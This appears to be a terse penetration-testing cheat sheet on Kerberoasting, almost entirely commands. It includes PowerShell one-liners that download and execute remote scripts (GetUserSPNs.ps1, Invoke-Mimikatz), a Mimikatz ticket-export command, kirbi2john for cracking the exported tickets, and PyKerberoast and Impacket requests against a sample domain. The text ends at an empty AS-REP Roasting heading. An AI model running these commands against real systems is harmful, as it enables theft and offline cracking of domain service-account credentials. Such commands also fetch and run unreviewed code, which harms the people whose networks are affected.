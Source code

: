 IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}


========================================================================================================================
					Exporting the tickets
========================================================================================================================




[+] Mimikatz

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")

Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'


[+] Kirbi2John


 ./kirbi2john.py /root/empire-dev/downloads/BDW3E2G2ZRKCUS3B/*.kirbi

https://github.com/nidem/kerberoast/blob/master/kirbi2john.py
https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/kirbi2john.py




========================================================================================================================
					Extract tickets without send request
========================================================================================================================


[+] PyKerberoast


python kerberoastv2.py -a 192.168.168.10 -b "dc=sittingduck,dc=info" -d sittingduck -u notanadmin

https://github.com/skelsec/PyKerberoast




[+] Impacket

./GetUserSPNs.py -request sittingduck.info/notanadmin

https://github.com/CoreSecurity/impacket/blob/master/examples/GetUserSPNs.py











========================================================================================================================
				AS-REP Roasting
========================================================================================================================
